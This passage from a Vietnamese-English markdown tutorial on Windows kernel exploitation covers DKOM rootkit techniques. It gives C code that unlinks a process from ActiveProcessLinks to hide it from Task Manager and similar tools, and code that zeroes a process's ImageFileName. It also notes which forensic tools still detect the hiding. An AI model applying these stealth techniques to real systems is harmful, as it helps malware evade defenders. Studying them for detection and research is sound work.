 > **Note:** Offsets (`0x448`, `0x440`, `0x4B8`) vary by Windows version. Production exploits phải dynamically resolve offsets hoặc use pattern matching.

---

## DKOM (Direct Kernel Object Manipulation)

DKOM techniques directly manipulate kernel structures để achieve goals như hiding processes, elevating privileges, etc.

### Technique 1: Process Hiding - Unlinking từ ActiveProcessLinks

**Concept:** Remove process từ `PsActiveProcessHead` doubly-linked list.

```c
// Get current process
PEPROCESS pProcess = PsGetCurrentProcess();

// Get ActiveProcessLinks offset
PLIST_ENTRY pListEntry = (PLIST_ENTRY)((PUCHAR)pProcess + ACTIVEPROCESSLINKS_OFFSET);

// Unlink from list
pListEntry->Blink->Flink = pListEntry->Flink;
pListEntry->Flink->Blink = pListEntry->Blink;

// Point to self (optional, avoid crashes)
pListEntry->Flink = pListEntry;
pListEntry->Blink = pListEntry;
```

**Result:** Process hidden từ:
- Task Manager
- Process Explorer
- `PsGetProcessList()`
- Most user-mode enumeration tools

**Still visible trong:**
- Handle tables
- Threads still scheduled
- Memory forensics tools
- Advanced detection (kernel callbacks)

### Technique 2: Zero Out ImageFileName

Simple technique để obfuscate process name:

```c
PEPROCESS pProcess = PsGetCurrentProcess();
PUCHAR pImageFileName = (PUCHAR)pProcess + IMAGEFILENAME_OFFSET;

// Overwrite with spaces or nulls
RtlZeroMemory(pImageFileName, 15);
// Or
memset(pImageFileName, ' ', 15);
```
